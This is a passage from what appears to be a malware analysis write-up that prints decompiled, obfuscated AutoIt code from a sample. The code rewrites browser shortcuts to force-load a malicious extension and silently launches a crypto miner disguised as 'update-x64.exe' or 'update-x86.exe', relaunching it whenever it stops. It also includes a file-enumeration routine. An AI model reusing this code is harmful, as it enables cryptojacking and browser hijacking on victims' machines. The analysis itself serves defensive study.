 ```autoit
  GLOBAL $FileCreateShortcut=EXECUTE("FileCreateShortcut")
  $FileCreateShortcut($FileShortcut[0],$File,$FileShortcut[1],"--enable-automation --disable-infobars --load-extension="&$TargetPath_)
ENDFUNC

```

Now that the extension is ready, the sample starts the crypto miner process. The file name would be `update-x64` or `update-x86` depending on the architecture in which it is running (64bits or 32bits). The sample also will check that the miner is not already running on the system. 

```autoit
FUNC RunApp()
  GLOBAL $Run_=EXECUTE("Run")
  GLOBAL $ProcessExists_=EXECUTE("ProcessExists")
  IF EXECUTE(@CPUArch)THEN
    $InstallerNameMlw="update-x64.exe"
  ELSE
    $InstallerNameMlw="update-x86.exe"
  ENDIF
  
  WHILE YEDGGMJQF()
    IF $FileExists_($TargetPath_&"\"&$InstallerNameMlw)THEN
      IF NOT $ProcessExists_($InstallerNameMlw)THEN
        $Run_($TargetPath_&"/"&$InstallerNameMlw,$TargetPath_,$SW_HIDE_)
      ENDIF
    ENDIF
  $Sleep_(5000)
  WEND
ENDFUNC
```

```autoit

FUNC FindAllFilesReg($ParamFile,$FilterSearch="*",$XEGWB=0,$AEZPYFNSP=FALSE )
  GLOBAL $FileClose_=EXECUTE("FileClose")
  GLOBAL $SetError_=EXECUTE("SetError")
  GLOBAL $FileFindFirstFile_=EXECUTE("FileFindFirstFile")
  GLOBAL $StringTrimLeft_=EXECUTE("StringTrimLeft")
  GLOBAL $FileFindNextFile_=EXECUTE("FileFindNextFile")
  GLOBAL $StringRegExpReplace_=EXECUTE("StringRegExpReplace")
  GLOBAL $StringRegExp_=EXECUTE("StringRegExp")
  LOCAL $ARWXHBFTJCFQ="|",$FileResultArray="",$FileFindNextFileResult="",$ParamFile2=""
  
  $ParamFile=$StringRegExpReplace_($ParamFile,"[\\/]+$","")&"\")
  
  IF $XEGWB=DEFAULT THEN $XEGWB=0
  IF $AEZPYFNSP THEN $ParamFile2=$ParamFile
  IF $FilterSearch=DEFAULT THEN $FilterSearch="*"

  IF NOT $FileExists_($ParamFile)THEN RETURN $SetError_(1,0,0)
  IF $StringRegExp_($FilterSearch,"[\\/:><\|]|(?s)^\s*$")THEN RETURN $SetError_(2,0,0)
  IF NOT ($XEGWB=0 OR $XEGWB=1 OR $XEGWB=2)THEN RETURN $SetError_(3,0,0)
  
  LOCAL $FileFindFirstFileResult=$FileFindFirstFile_($ParamFile&$FilterSearch)
  IF @ERROR THEN RETURN $SetError_(4,0,0)
  
  WHILE 0+1
    $FileFindNextFileResult=$FileFindNextFile_($FileFindFirstFileResult)
    IF @ERROR THEN EXITLOOP
    IF ($XEGWB+@EXTENDED=0+2)THEN CONTINUELOOP
      $FileResultArray&="|"&$ParamFile2&$FileFindNextFileResult
  WEND
  $FileClose_($FileFindFirstFileResult)

```